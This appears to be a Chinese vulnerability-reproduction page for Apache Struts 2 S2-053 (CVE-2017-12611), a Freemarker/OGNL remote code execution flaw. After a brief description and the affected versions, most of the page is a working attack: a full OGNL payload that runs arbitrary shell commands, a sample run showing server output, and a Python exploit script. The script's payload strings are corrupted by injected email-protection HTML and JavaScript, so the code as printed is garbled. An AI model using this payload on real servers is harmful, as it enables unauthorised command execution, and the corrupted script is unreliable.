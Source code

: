 （CVE-2017-12611）S2-053
========================

一、漏洞简介
------------

在一定条件下，当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞

二、漏洞影响
------------

Struts 2.0.1 - 2.3.33Struts 2.5 - 2.5.10

三、复现过程
------------

### poc

    %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

注意：执行命令的地方在于(\#cmd='whoami')

### python poc

#### Usage

    exploit.py <url> <param> <command>

#### Example

    $ python s2-053-exploit.py "http://127.0.0.1" "name" "uname -a"
    [*] Generated EXP: http://127.0.0.1/?name=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%27uname%20-a%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27/c%27%2C%23cmd%7D%3A%7B%27/bin/bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D

    [*] Exploiting...
    [+] Response: <html>
    <head>
    <title>S2-053 Demo</title>
    </head>
    <body>
    <h1>S2-053 Demo</h1>
    <hr />
    Your name: Linux a66c177c2326 4.4.0-70-generic ;jsessionid=64A259D92EC63543AD72E6AA847319C9#91-Ubuntu SMP Wed Mar 22 12:47:43 UTC 2017 x86_64 GNU/Linux

    <hr />
    Enter your name here:<br />
    <form action="" method="get">
    <input type="text" name="name" value="" />
    <input type="submit" value="Submit" />
    </form>
    <br /><br /><br />
    <p>See more at: <a href="https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-053">VulApps - S2-053</a></p>
    </body>
    </html>

    [+] Exploit Finished!

#### exploit.py

    import requests
    import sys
    from urllib import quote

    def exploit(url):
        res = requests.get(url, timeout=10)
        if res.status_code == 200:
            print "[+] Response: {}".format(str(res.text))
            print "\n[+] Exploit Finished!"
        else:
            print "\n[!] Exploit Failed!"

    if __name__ == "__main__":
        if len(sys.argv) != 4:
            print """****S2-053 Exploit****
    Usage:
        exploit.py <url> <param> <command>
    Example:
        exploit.py "http://127.0.0.1/" "name" "uname -a"
            """
            exit()
        url = sys.argv[1]
        param = sys.argv[2]
        command = sys.argv[3]
        #payload = "%{(<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="bc9fd8d181fcd3dbd2d092f3dbd2d0ffd3d2c8d9c4c8">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="8be8e4e6a5e4fbeee5f8f2e6fbe3e4e5f2a5f3fce4f9e0b9a5e4ece5e7a5c4ece5e7deffe2e7cbe8e7eaf8f8">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+command+"').(#iswin=(@<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="365c574057185a57585118654f4542535b76515342664459465344424f">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="c6a9b4a1e8a7b6a7a5aea3e8b5b2b4b3b2b5f4e895a3b4b0aaa3b287a5b2afa9a885a9a8b2a3beb286a1a3b294a3b5b6a9a8b5a3">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>().getOutputStream())).(@<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="dcb3aebbf2bdacbdbfb4b9f2bfb3b1b1b3b2aff2b5b3f2959389a8b5b0af9cbfb3aca5">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>(#process.getInputStream(),#ros)).(#ros.flush())}"""
        # Can show the echo message
        payload = "%{(<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="85a6e1e8b8c5eae2ebe9abcae2ebe9c6eaebf1e0fdf1">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="f89b9795d697889d968b81958890979681d6808f978a93cad6979f9694d6b79f9694ad8c9194b89b94998b8b">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+command+"').(#iswin=(@<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="5c363d2a3d72303d323b720f252f2839311c3b39280c2e332c392e2825">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="2a45584d044b5a4b49424f04494547474544590443450463657f5e4346596a5e45795e5843444d">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>(#process.getInputStream()))}"
        link = "{}/?{}={}".format(url, param, quote(payload))
        print "[*] Generated EXP: {}".format(link)
        print "\n[*] Exploiting..."
        exploit(link)
